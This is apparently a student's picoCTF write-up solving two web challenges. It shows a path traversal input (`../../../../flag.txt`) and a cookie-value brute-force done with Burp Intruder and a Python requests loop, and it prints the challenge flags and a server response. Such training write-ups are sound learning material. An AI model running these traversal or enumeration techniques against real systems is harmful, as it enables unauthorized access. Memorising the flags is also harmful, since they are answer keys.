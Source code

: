 # SOAP


# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_6db46514}`

**Solution:**
- The main hint in the challenge was the fact that the website was filtering *absolute* file paths. 
- I noticed the .txt files listed on the website given. http://saturn.picoctf.net:<port\>.
- ![forbidden paths](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/webex1.JPG?raw=true)
- By using the knowledge of absolute vs relative paths, I remembered relative paths don't start with a `/`(root directory), and that other directories in the path can be represented by `../` .
- To get the file, I entered `../../../../flag.txt` as the description said the file was in `/usr/share/nginx/html/`.


**Concepts learnt:**
1.  I recalled the use of `..` to symbolise parent directory.

**Mistakes & other approaches:**
- First, I tried editing the URL directly with the path provided and it didn't work. 
- I also tried entering the given files names on the home page, but they seemed to be not be found

# Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

**Solution:**
- The challenge provides a website with an input box for types of cookies. So, I entered various cookie names such as snickerdoodle, chocolate chip, gingerbread, crinkle, etc and observed the *cookie* values change from 0 to ~25 in the Application tab, where -1 was the initial value.
- I realised a specific value of the cookie gives the flag. I installed *Burp Suite (Community Edition)* for the purpose of checking the response upon changing cookie value one by one. 
- I sent  `mercury.picoctf.net:29649/check` to Intruder, set a payload around the cookie value using `Cookie: name=§-1§`. I changed *Payloads* type to numbers and set a range from 0 to 20 and started the attack.
![cookies1.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies1.JPG?raw=true)
 
 - The output had columns like the request number, payload, length, response received and status code. I then went to settings and scrolled to the `Grep - Match` section and added `picoCTF{` to the search queries to find the flag in the responses. It was found in payload 18 and the length here also differed from the other payload values. 
![cookies2.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies2.JPG?raw=true)

**Concepts learnt:**
1. Learnt the use of Burp Suite for taking in requests, changing them and generating the required responses.

**Mistakes & other approaches:**
- After finding the value of the cookie, it could also be directly edited in the website to get the flag there.
- A Python script can be used instead of installing Burp Suite, where there's a loop from 1 to 20 to change the value of the cookies and get the response using `import requests`. 
```python
#!/bin/python3
import requests
url = 'http://mercury.picoctf.net:29649/check'
for i in range(20):
    cookies = {'name': str(i)}
    r = requests.get(url,cookies=cookies)
    if 'picoCTF' in r.text:
        print(r.text)
        break
```
The output in the terminal was the code when the cookie is changed to the value having a response with the required flag:
```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

**Resources:**
- https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/settings
- https://pypi.org/project/requests/
